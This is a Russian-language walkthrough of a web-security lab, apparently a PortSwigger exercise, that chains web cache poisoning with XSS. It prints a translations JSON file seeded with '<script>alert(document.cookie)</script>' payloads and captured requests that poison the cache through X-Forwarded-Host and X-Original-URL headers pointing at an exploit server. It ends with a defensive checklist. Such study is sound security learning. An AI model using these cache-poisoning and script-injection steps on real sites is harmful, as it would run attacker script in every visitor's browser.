


-------

теперь пробую так 😈 , можно было бы поставить везде просто алерты с числом уникальным, чтобы понять, какая точка сработала, но это же лаба , лень ))
```json
{
    "en": {
        "name": "English11111",
        "translations": {
            "Return to list": "",
            "View details": "alert(document.cookie)",
            "Description:": "<script>alert(document.cookie)</script>"
        }
    },
    "es": {
        "name": "español22222",
        "translations": {
            "Return to list": " a la lista",
            "View details": "alert(document.cookie)",
            "Description:": "<script>alert(document.cookie)</script>"
        }
    },
    "cn": {
        "name": "中文3333",
        "translations": {
            "Return to list": "alert(document.cookie)",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": ":"
        }
    },
    "ar": {
        "name": "عربى4444",
        "translations": {
            "Return to list": "<script>alert(document.cookie)</script>",
            "View details": "ع",
            "Description:": "alert(document.cookie)"
        }
    },
    "en-gb": {
        "name": "Proper English5555",
        "translations": {
            "Return to list": "",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": "alert(document.cookie)"
        }
    },
    "ml": {
        "name": "മലയാളം6666",
        "translations": {
            "Return to list": "<script>alert(document.cookie)</script>",
            "View details": "",
            "Description:": "alert(document.cookie)"
        }
    },
    "hb": {
        "name": "עברית7777",
        "translations": {
            "Return to list": "<script>alert(document.cookie)</script>",
            "View details": "",
            "Description:": "alert(document.cookie)"
        }
    },
    "zl": {
        "name": "Ẕ̻͕̿̊ͤ̍ͅa͙l̗ͧg̮̤̰̘͇ȍ͇͕̳̙͙͉́̅̋̌̅8888",
        "translations": {
            "Return to list": "Re̹̰̘͉̹̪ͅt̬̫̜ȕͩ͒ͥͥr̃̉͒n ̎͂t͎͖̽͋o͖̟͚͙̲͐ͤͫ̎̓ ̼̟͈̭͉͎̂ͯ̔ͤͤ̏͐ͅliͤ͑ͧ̆̐̈̀sṭ̠̮̰͍̙͒̔͆̈ͤ̅",
            "View details": "V̖̮͙ͅi͇e͙̦w̭̣̫͇̦̬̰ ̓͑̓ͯ̔d͍͂e͚̮͖͍͖̠͙ͮͭ̉ͦ̏͌̆t̙͎̺͉a̳̖͔̱͉̱͑̆̌̃͊ͬi̯͚͙̼̹̮l̖͎͛̈́͒ͅs̒̒ͤ̽̒̀",
            "Description:": ""
        }
    },
    "fn": {
        "name": "Suomalainen99999",
        "translations": {
            "Return to list": "",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": "alert(document.cookie)"
        }
    },
    "hw": {
        "name": "Ōlelo Hawaiʻi1010101",
        "translations": {
            "Return to list": "",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": "alert(document.cookie)"
        }
    },
    "mm": {
        "name": "ဗမာ11234567890",
        "translations": {
            "Return to list": "",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": "alert(document.cookie)"
        }
    }
}
```

вот html со страницы
```html
<div>

<h3>Folding Gadgets</h3>

                            $53.74
<a class="button" href="/product?productId=2">alert(document.cookie)</a>
</div>
```




вижу, что отображается на сайте alert(document.cookie)
значит это место из пейлоада  "View details": "alert(document.cookie)",

поэтому закину ка я туда вот это 
`"View details": "",`


вот так:

```json
{
    "en": {
        "name": "English11111",
        "translations": {
            "Return to list": "",
            "View details": "",
            "Description:": "<script>alert(document.cookie)</script>"
        }
    },
    "es": {
        "name": "español22222",
        "translations": {
            "Return to list": " a la lista",
            "View details": "",
            "Description:": "<script>alert(document.cookie)</script>"
        }
    },
    "cn": {
        "name": "中文3333",
        "translations": {
            "Return to list": "alert(document.cookie)",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": ":"
        }
    },
    "ar": {
        "name": "عربى4444",
        "translations": {
            "Return to list": "<script>alert(document.cookie)</script>",
            "View details": "ع",
            "Description:": "alert(document.cookie)"
        }
    },
    "en-gb": {
        "name": "Proper English5555",
        "translations": {
            "Return to list": "",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": "alert(document.cookie)"
        }
    },
    "ml": {
        "name": "മലയാളം6666",
        "translations": {
            "Return to list": "<script>alert(document.cookie)</script>",
            "View details": "",
            "Description:": "alert(document.cookie)"
        }
    },
    "hb": {
        "name": "עברית7777",
        "translations": {
            "Return to list": "<script>alert(document.cookie)</script>",
            "View details": "",
            "Description:": "alert(document.cookie)"
        }
    },
    "zl": {
        "name": "Ẕ̻͕̿̊ͤ̍ͅa͙l̗ͧg̮̤̰̘͇ȍ͇͕̳̙͙͉́̅̋̌̅8888",
        "translations": {
            "Return to list": "Re̹̰̘͉̹̪ͅt̬̫̜ȕͩ͒ͥͥr̃̉͒n ̎͂t͎͖̽͋o͖̟͚͙̲͐ͤͫ̎̓ ̼̟͈̭͉͎̂ͯ̔ͤͤ̏͐ͅliͤ͑ͧ̆̐̈̀sṭ̠̮̰͍̙͒̔͆̈ͤ̅",
            "View details": "V̖̮͙ͅi͇e͙̦w̭̣̫͇̦̬̰ ̓͑̓ͯ̔d͍͂e͚̮͖͍͖̠͙ͮͭ̉ͦ̏͌̆t̙͎̺͉a̳̖͔̱͉̱͑̆̌̃͊ͬi̯͚͙̼̹̮l̖͎͛̈́͒ͅs̒̒ͤ̽̒̀",
            "Description:": ""
        }
    },
    "fn": {
        "name": "Suomalainen99999",
        "translations": {
            "Return to list": "",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": "alert(document.cookie)"
        }
    },
    "hw": {
        "name": "Ōlelo Hawaiʻi1010101",
        "translations": {
            "Return to list": "",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": "alert(document.cookie)"
        }
    },
    "mm": {
        "name": "ဗမာ11234567890",
        "translations": {
            "Return to list": "",
            "View details": "<script>alert(document.cookie)</script>",
            "Description:": "alert(document.cookie)"
        }
    }
}
```

сработало! при загрузке страницы - алерт есть!
причем алерт показывает мою куку с языком




по идее, если зайти в эксплойт сервер, то можно узнать, какой язык у жертвы

```c
10.0.4.99       2026-03-26 07:33:29 +0000 "GET /resources/json/translations.json HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
нет, языка тут нет

-----

но вот особенность какая-то есть, я когда открываю стр на любом языке кроме английского , мои алерты срабатывают, но если откр с en  то алерта нет, и вообще скприт не грузится из моего сервера

----


я заметил, что вот здесь при откр страницы ставится куку языка
и она точно также выглядит, как и в моем всплывающем алерте!!!
и самое прекрасное, что этоот запрос  `GET /?localized=1` HTTP/2- тоже можно закешировать!!!!!
```http
GET /?localized=1 HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J; lang=en 👈👈👈👈🔴🔴
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0aab00f304f0633d80d0123200f100a3.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

-----

кеширую такой запрос 
```http
GET /?localized=77 HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J; lang=es
....
X-Forwarded-Host: exploit-0ae800f504bf63c48040119801cf00d3.exploit-server.net


```
и тут же следом кеширую запрос 
```http
GET / HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
...
X-Forwarded-Host: exploit-0ae800f504bf63c48040119801cf00d3.exploit-server.net


```

то есть я отравляю стр которая заставляет сделать запрос к моему серверу
и потом отравляю кеш запроса /?localized=77, который подгружает перевод на нужный язык, мне это нужно для того чтобы ( как я верю в это, чтобы стр жертвы выполнила автоматически перевод на любой язык кроме английского), так как если выбран английский язык - то стр не отображает мои скрипт и качает json файл из оригинального источника!

---

пробую! 
попробовал сам - не получилось, страница не переводится на другой язык автоматически

и я думаю, проблема тут

я сделал так
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J; lang=es

а огригинал так
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J; lang=db

теперь делаю так
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J; lang=en-es

снова травлю кеши этих двух запросов
и ничего не вышло, я заходя с en языком на стр - не происходит авто перевод на нужный язык!
иду искать по карте сайта

-----

в карте сайта, я уже говорил выше, есть запрос
```http
GET /setlang/en? HTTP/2
Host: 0aab00f304f0633d80d0123200f100a3.web-security-academy.net
Cookie: session=QypSn3Na1PL7W7Bf4HEIYmD4JH05Zn9J; lang=ar
```
и вот наверно он и грузит язык нужный..

то есть мне нужно как- то заставить браузер жертвы сперва скачать мой json файл (уже могу так делать) и еще и заставить браузер выполнить после этого запрос на смену языка!

-----

пообщался с дипсиком на эту тему и вот че он говорит добавить в кеш отравляемой главной стр:

`X-Original-URL: /setlang\es`

не получается ничего, пробую добавить `X-Original-URL: /setlang\es` к стр GET /?localized=77

сработало ЕПТА!!!!!!!!!!!!!!!!!!!!!!!!

за исключением `X-Original-URL: /setlang\es`
все смог решить сам, доволен собой, 3 месяца обучения не проходят даром.

-------


#### как защититься

1 - Все заголовки, которые влияют на содержимое ответа или на логику приложения, должны включаться в ключ кэширования. если заголовок динамический и не может быть частью ключа, ответы с ним не должны кэшироваться вовсе

2 - нельзя использовать данные из непроверенных заголовков (типа `X-Forwarded-Host`, `X-Original-URL`) для формирования критических элементов страницы, таких как url для подгрузки внешних ресурсов. если такие заголовки необходимы, их значения должны проходить жесткую валидацию по белому списку

3 - кэширование редиректов (302) должно быть ограничено, особенно если они устанавливают cookies или меняют состояние пользователя. такие редиректы не должны кэшироваться в shared cache, либо должны иметь короткое время жизни и явно учитывать заголовки, влияющие на перенаправление

4 - ПРи вставке данных из внешних json-файлов в dom через `innerHTML`необходимо использовать санитизацию или безопасные методы, такие как `textContent`
если html-вставка необходима, нужно применять библиотеки типа dompurify

5 - важно понимать, что отдельные уязвимости, которые кажутся неэксплуатируемыми сами по себе, могут быть скомбинированы в цепочку атаки. защита должна строиться не на уровне отдельных векторов, а на уровне архитектуры - с минимизацией количества точек, где внешние данные влияют на кэшируемый ответ

эта лаба показала, что даже при наличии защиты на уровне отдельных уязвимостей, их комбинация может привести к критическому компрометации всех пользователей
